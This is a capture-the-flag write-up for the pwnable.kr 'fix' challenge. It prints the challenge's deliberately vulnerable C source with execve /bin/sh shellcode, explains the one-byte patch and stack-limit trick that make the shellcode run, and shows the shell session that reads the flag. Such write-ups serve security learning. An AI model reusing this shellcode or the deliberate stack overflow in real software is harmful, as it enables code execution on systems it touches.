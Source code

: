 # pwnable.kr -- Rookiss -- fix

## 1. Challenge

> Why bother to make your own shellcode?  
> I can simply copy&paste from shell-storm.org  
> so I just copied it from shell-storm then used it for my buffer overflow exercise  
> but it doesn't work :(  
> can you please help me to fix this??  
>   
> ssh fix@pwnable.kr -p2222 (pw:guest)  

## 2. Solution

Log in via SSH and download the binary file `fix` and the corresponding source code `fix.c`.

fix.c:
```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}
```

It seems we could only change one byte inside `shellcode`.

I tried to run `fix` but it crashed. So I use `gdb` to find out what happened.

The following is the context when shellcode began to run.

![](pic1.png)

The shellcode has 5 `push`es so that `esp` would reach `0xffffcf00 - 0x4 * 5 = 0xFFFFCEEC`. But some of the shellcode is located after `0xFFFFCEEC`. As a result, the shellcode is broken. 

So it seems we are allowed to have 3 `push`es at most. As we could only modify one byte, I modify `push eax`(on the 6th line) to `pop esp`. After that, `esp` should be `0x6e69622f`. 

However, how could we make such address valid? Well, use 

```
ulimit -s unlimited
```

It could make the program have unlimited stack size. So that set `esp` to `0x6e69622f` would not cause access violation.

```
fix@ubuntu:~$ ls
fix  fix.c  flag  intended_solution.txt
fix@ubuntu:~$ ulimit -s unlimited
fix@ubuntu:~$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 92
get shell
$ ls
fix  fix.c  flag  intended_solution.txt
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
$ exit
fix@ubuntu:~$
```

